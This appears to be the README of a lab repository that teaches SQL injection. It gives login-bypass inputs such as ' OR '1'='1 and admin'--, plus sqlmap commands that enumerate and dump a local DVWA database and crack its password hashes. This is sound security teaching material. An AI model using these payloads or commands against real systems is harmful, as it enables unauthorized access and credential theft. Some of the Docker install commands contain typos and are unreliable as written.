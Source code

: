 ```
    ___     __    __           __                      _ 
   /   |   / /   / /  ____    / /_   ____ _   ____    (_)
  / /| |  / /   / /  / __ \  / __ \ / __ `/  / __ \  / / 
 / ___ | / /   / /  / /_/ / / /_/ // /_/ /  / / / / / /  
/_/  |_|/_/   /_/   \____/ /_.___/ \__,_/  /_/ /_/ /_/  
```

# Introduction

<h3>This repository demonstrates two scenarios simulating SQL injection (SQLi) attacks in a controlled environment.</h3>

## Scenarios:

<h4>

1. Basic SQLi Attack on a Python Login System

* A Python program simulating a login system with a database connection demonstrates how an attacker can exploit unvalidated user input to bypass authentication and potentially access unauthorized data.</h4>
<h4>

2. Safe Environment Web Application Demonstration (Simulated)

* A secure testing environment is set up to simulate a web application vulnerable to SQLi. A specialized tool (sqlmap) is used to demonstrate how an attacker might attempt to extract sensitive information from the database.
</h4>

# Setting Up LoginSystem with SQL Database

* Create Database and Table

```
SQL 

CREATE DATABASE IF NOT EXISTS YourDatabaseName;

USE YourDatabaseName;

CREATE TABLE IF NOT EXISTS Users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(255) NOT NULL,
    password VARCHAR(255) NOT NULL,
    isAdmin BOOLEAN DEFAULT FALSE
);
```
Replace YourDatabaseName with your desired database name.



* Connect with Python Loginsystem.py

# Simple SQL Injection Examples
* For simple SQL injection, you can use boolean  based  or time bassed.

``` 
username = ' OR '1'='1
password = Anything
```

```
username = admin'--
password = Anything

```
<p style="text-align:center;">
<img src="./PNGs/6.png">
</p>

# SQLmap Installation
To install SQLmap, it's recommended to clone the Git repository:
```
Bash

git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev

```
#  Docker Installation
Ensure Docker is installed on your system. If not, you can install it using:

``` 
Bash

sudo apt install -y dockerl.io
sudo systemctr enabel docker --now
sudo usermod -aG docker $USER
newgrp docker

```
# Usage with DVWA (Damn Vulnerable Web Application)

1. Run DVWA Docker container:

```
Bash

 docker run --rm -it -p 80:80 vulnerables/web-dvwa

```
2. Access DVWA in your browser at http://127.0.0.1.

3. Login with the following credentials:

```
Username: admin
Password: password

```
4. creat database 
<p style="text-align:center;">
<img src="./PNGs/1.png">
</p>

5. go to SQL injection 
<p style="text-align:center;">
<img src="./PNGs/4.png">
</p>



# SQL Injection Attack


1. Navigate to the SQL injection page in DVWA.
2. Enter any input into the input field.

<p style="text-align:center;">
<img src="./PNGs/5.png">
</p>

3. Copy the URL and obtain the PHP session ID (PHPSESSID) and security level cookies.

<p style="text-align:center;">
<img src="./PNGs/2.png">
</p>

# Using SQLmap

- sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester, and a broad range of switches including database fingerprinting, over data fetching from the database, accessing the underlying file system, and executing commands on the operating system via out-of-band connections.

<p style="text-align:center;">
<img src="./PNGs/8.png">
</p>

You can use SQLmap to perform various tasks, such as: 

* Viewing all tables on the webpage:


```
Bash

cd sqlmap-dev
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  
```
* Viewing all table schemas:

```
Bash

sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  --schema --batch
```
* Viewing schema for a specific table ('users'):
``` 
Bash
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --tables  --schema  --columns -T users --batch 
```
<p style="text-align:center;"><img src="./PNGs/7.png"></p>

* Viewing table content and cracking password hashes:
``` 
Bash
sudo python3 sqlmap.py -u "http://127.0.0.1/vulnerabilities/sqli/?id=ahmad&Submit=Submit" --cookie "75o3da5qmsglsquphnpldhqj53; security=low" --dump -T users --batch
```
* outcome: 
<p style="text-align:center;">
<img src ="./PNGs/3.png"></p>


